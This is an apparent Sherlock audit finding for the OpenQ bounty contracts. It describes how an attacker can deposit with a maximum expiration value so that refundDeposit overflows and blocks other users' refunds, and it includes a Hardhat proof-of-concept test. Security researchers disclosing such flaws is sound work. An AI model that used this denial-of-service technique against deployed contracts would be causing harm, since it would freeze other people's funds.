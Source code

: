 # Sherlock / openq-feb-1
***************************
***************************
# [H-01] Missing check of deposit's endTime lead to unable to refundDeposit 

## Summary
Since there is no check about the end time of the deposits when a user call `DepositManagerV1.fundBountyToken()`, a attacker can abuse this function by depositing into bounty a token with `expiration = type(uint256).max`. 
This will lead to the DDOS attack with function `DepositManagerV1.refundDeposit()`. When a user try to call refund, the function will loop through the entire array `deposits[]` to calculate the total locked fund. Then when the loop reachs to the deposit of the attacker, it will calculate `depositTime[depList[i]] + expiration[depList[i]]` and compare it with `block.timestamp`. Unfortunately `depositTime[depList[i]] + expiration[depList[i]] > 1 + 2^256 - 1 = 2^256` ==> overflow here

## Vulnerability Detail
You can place this test into `DepositManager.test.js` -> `describe('refundDeposits')` -> `describe('Event Emissions')` -> ``
```javascript=
it.only('should revert when expiration = type(uint256).max', async () => {
    // ARRANGE
    await openQProxy.mintBounty(Constants.bountyId, Constants.organization, atomicBountyInitOperation);

    const bountyAddress = await openQProxy.bountyIdToAddress(Constants.bountyId);
    const bounty = await AtomicBountyV1.attach(bountyAddress);

    await mockLink.approve(bountyAddress, 10000000);
    const volume = 100;

    const depositedTimestamp = await setNextBlockTimestamp(10);

    /// user A deposit link with expiration = 1 
    const tokenDepositId = generateDepositId(Constants.bountyId, 0);
    await depositManager.fundBountyToken(bountyAddress, mockLink.address, volume, 1, Constants.funderUuid);

    /// user B deposit native token with expiration = 2^256 - 1
    const protocolDepositId = generateDepositId(Constants.bountyId, 1);
    await depositManager.fundBountyToken(bountyAddress, ethers.constants.AddressZero, volume, BigNumber.from(2).pow(256).sub(1), Constants.funderUuid, { value: volume });

    // revert because of overflow error 
    const expectedTimestamp = await setNextBlockTimestamp(2764800);
    await depositManager.refundDeposit(bountyAddress, tokenDepositId);
});
```

